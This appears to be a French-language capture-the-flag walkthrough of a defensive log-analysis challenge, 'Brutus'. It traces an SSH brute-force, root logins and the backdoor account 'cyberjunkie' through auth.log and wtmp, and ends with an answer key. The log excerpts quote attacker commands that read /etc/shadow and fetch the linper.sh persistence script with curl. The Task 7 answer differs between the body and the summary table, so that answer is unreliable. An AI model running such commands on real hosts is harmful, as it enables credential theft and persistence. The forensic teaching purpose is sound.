

[⬅ Retour à Sherlocks](README.md) · [🏠 Accueil du repo](../../README.md)

# Brutus — DFIR (Very Easy)

| | |
|---|---|
| **Catégorie** | DFIR |
| **Difficulté** | Very Easy |
| **Récompense** | 195 XP |
| **Artefacts** | `auth.log`, `wtmp` |

## Scénario

> In this Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

## Artefacts fournis

| Fichier | Description |
|---|---|
| `auth.log` | Journal d'authentification Linux (PAM, SSH, sudo) |
| `wtmp` | Journal binaire des sessions utilisateur (login/logout) |

## Flux de résolution



## Solution pas à pas

### Task 1 — IP de l'attaquant

```bash
grep "Failed password\|Invalid user" auth.log | awk '{print $(NF-3)}' | sort | uniq -c | sort -nr
```

```
48 65.2.161.68
34 from
```

**Réponse : `65.2.161.68`**

---

### Task 2 — Compte compromis

```bash
grep "Accepted password" auth.log | grep 65.2.161.68
```

```
Mar  6 06:31:40 ... Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar  6 06:32:44 ... Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar  6 06:37:34 ... Accepted password for cyberjunkie from 65.2.161.68 port 43260 ssh2
```

Le brute-force a d'abord ciblé `root`. C'est le premier compte compromis.

**Réponse : `root`**

---

### Task 3 — Timestamp de la session manuelle (wtmp)

Le wtmp enregistre le moment où le terminal est réellement établi, différent du timestamp d'authentification dans auth.log.

```bash
python3 utmp.py wtmp | grep 65.2.161.68 | grep root
```

```
"root"  "65.2.161.68"  "2024/03/06 01:32:45"
```

Conversion UTC : `2024-03-06 06:32:45` (le wtmp stocke en UTC-5 ici, la sortie de `utmp.py` affiche déjà UTC).

**Réponse : `2024-03-06 06:32:45`**

---

### Task 4 — Numéro de session SSH

```bash
grep "New session" auth.log | grep root
```

```
Mar  6 06:19:54 ... New session 6 of user root.
Mar  6 06:31:40 ... New session 34 of user root.
Mar  6 06:32:44 ... New session 37 of user root.
```

La session correspondant au timestamp `06:32:44` (connexion manuelle) est la session **37**.

**Réponse : `37`**

---

### Task 5 — Compte de persistance créé

```bash
grep "useradd\|new user" auth.log
```

```
Mar  6 06:34:18 ... useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
```

**Réponse : `cyberjunkie`**

---

### Task 6 — Sous-technique MITRE ATT&CK

La création d'un nouveau compte local correspond à :

- **Tactic** : Persistence (TA0003)
- **Technique** : Create Account (T1136)
- **Sub-technique** : Local Account (T1136.001)

**Réponse : `T1136.001`**

---

### Task 7 — Fin de la première session root

```bash
grep "session closed for user root" auth.log
```

```
Mar  6 06:25:01 ... CRON[2219]: pam_unix(cron:session): session closed for user root
Mar  6 06:25:01 ... CRON[2218]: pam_unix(cron:session): session closed for user root
Mar  6 06:31:40 ... sshd[2411]: pam_unix(sshd:session): session closed for user root
Mar  6 06:35:01 ... CRON[2614]: pam_unix(cron:session): session closed for user root
Mar  6 06:37:24 ... sshd[2491]: pam_unix(sshd:session): session closed for user root
```

La première session SSH root (session 34, port 34782, `06:31:40`) se ferme à `06:31:40`.
La deuxième session SSH root (session 37, port 53184, `06:32:44`) se ferme à `06:37:24`.

La question porte sur la **première session SSH** de l'attaquant (session 34).

**Réponse : `2024-03-06 06:31:40`**

> **Note :** Certains writeups répondent `2024-03-06 06:37:24` (fin de la 2ème session root). Vérifier l'indice de la task pour confirmer laquelle est attendue.

---

### Task 8 — Commande sudo exécutée

```bash
grep "COMMAND" auth.log
```

```
Mar  6 06:37:57 ... sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:39:38 ... sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

Le script `linper.sh` est un outil de persistance Linux (Linux Persistence). C'est la commande la plus significative.

**Réponse : `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`**

## Réponses résumées

| Task | Réponse |
|---|---|
| 1 — IP attaquant | `65.2.161.68` |
| 2 — Compte compromis | `root` |
| 3 — Timestamp session (wtmp) | `2024-03-06 06:32:45` |
| 4 — Numéro de session | `37` |
| 5 — Compte backdoor | `cyberjunkie` |
| 6 — MITRE sub-technique | `T1136.001` |
| 7 — Fin session root | `2024-03-06 06:37:24` |
| 8 — Commande sudo | `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` |

## Points clés

- `auth.log` trace toutes les authentifications, créations de comptes et commandes sudo
- `wtmp` est binaire — utiliser `utmp.py`, `last` ou `python3-utmp` pour le lire
- Le timestamp d'auth ≠ timestamp d'ouverture de session (différence auth.log vs wtmp)
- `linper.sh` = Linux Persistence script → signal clair de compromission avancée
- T1136.001 : création de compte local = technique de persistance classique post-exploitation
